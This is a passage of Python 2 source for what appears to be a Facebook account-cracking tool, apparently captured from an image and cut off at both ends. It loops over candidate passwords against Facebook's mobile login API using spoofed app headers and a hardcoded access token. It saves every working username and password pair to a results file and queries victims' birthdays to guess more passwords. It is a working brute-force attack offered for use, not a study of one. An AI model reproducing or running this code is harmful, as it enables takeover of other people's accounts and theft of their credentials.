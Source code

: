         for pw in __yan__:

            pw = pw.lower()

            try: os.mkdir('results')

            except: pass

            try:

             _kontol = open('YNTKTS.txt', 'r').read()

            except (KeyError, IOError):

             _kontol = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'

            headers_ = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), "x-fb-sim-hni": str(random.randint(20000, 40000)), "x-fb-net-hni": str(random.randint(20000, 40000)), "x-fb-connection-quality": "EXCELLENT", "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA", "user-agent": _kontol, "content-type": "application/x-www-form-urlencoded", "x-fb-http-engine": "Liger"}

            api = 'https://b-api.facebook.com/method/auth.login'

            params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32',  'format': 'JSON', 'sdk_version': '2', 'email': user, 'locale': 'en_US', 'password': pw, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

            response = requests.get(api, params=params, headers=headers_)

            if response.status_code != 200:

                sys.stdout.write('\r %s[%s!%s] Hidupkan mode pesawat 2 detik'%(N,M,N)),

                sys.stdout.flush()

                loop +=1

                self.__api__()

            if 'access_token' in response.text and 'EAAA' in response.text:

                print '\r  %s* --> %s|%s                 %s' % (H,user,pw,N)

                wrt = ' [✓] %s|%s' % (user,pw)

                ok.append(wrt)

                open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                break

            elif 'www.facebook.com' in response.json()['error_msg']:

                try:

                    kontol = open('.memek.txt').read()

                    cp_ttl = requests.get('https://graph.facebook.com/%s?fields=birthday&access_token=%s'%(user,kontol)).json()['birthday']

                    month, day, year = cp_ttl.split('/')
